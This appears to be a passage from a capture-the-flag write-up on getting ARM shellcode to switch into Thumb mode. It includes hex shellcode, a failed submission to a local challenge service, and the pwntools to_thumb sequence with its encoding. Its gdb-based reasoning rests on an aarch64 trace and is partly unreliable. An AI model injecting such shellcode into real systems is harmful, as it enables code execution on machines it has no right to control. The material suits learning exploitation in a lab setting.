# Odds and evens
As far as i remember, the only thing controlling which mode we are in is the parity of the pc. This makes perfect sense because arm instructions are 4 bytes and thumb instructions are 2 bytes. If code always starts at an even location, there is no way to reach an odd location! So the lsb of `pc` is always 0, hence we can actually set it to 0/1 to switch modes, and the cpu will just ignore the lowest bit when finding what instruction to fetch. (Though it does of course matter a lot for what mode it will be in!!!)

I don't remember which is which, so i'll just use gdb.

```
0x0000ffff9afe7c20 in _start () from /lib/ld-linux-aarch64.so.1
(gdb) si
0x0000ffff9afe7c24 in _start () from /lib/ld-linux-aarch64.so.1
(gdb) si
0x0000ffff9afe7c28 in _start () from /lib/ld-linux-aarch64.so.1
```

Ok, it jumps 4 at a time, so it's arm. We also see that `lsb=0` means arm. We see this from that the last nibble goes 0, 4, 8 and not 1, 5, 9.

# Just do it!
We want to make an arm instruction which jumps to the next thumb instruction. That means we increment pc by 4 to reach the next instruction, but we actually need 5 to fix the mode.

I think this might just work?
```
add pc, 5
= 05f08fe2
```

We concat the two strings and get

```
  05f08fe2 +  4ff07b005ddf
= 05f08fe24ff07b005ddf
```


```
$ nc localhost 5001
Welcome to shell code as a shell
Enter your shellcode (in hex please) up to 512 chars
05f08fe24ff07b005ddf
*** Read 2 instructions ***
0xdead0000:     add             pc, pc, #5
0xdead0004:     rsbseq          pc, fp, pc, asr #32
*** Shellcode looks good, let's roll! ***
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```
Hm... no good. Without a debugger it's hard to say whats happening.

# Proper way
Looking at pwntools, we can see [how shellcraft implements to_thumb()](https://github.com/Gallopsled/pwntools/blob/6aaaf84586/pwnlib/shellcraft/templates/arm/to_thumb.asm)
```
add r0, pc, #1
bx r0

= 01008fe210ff2fe1
```
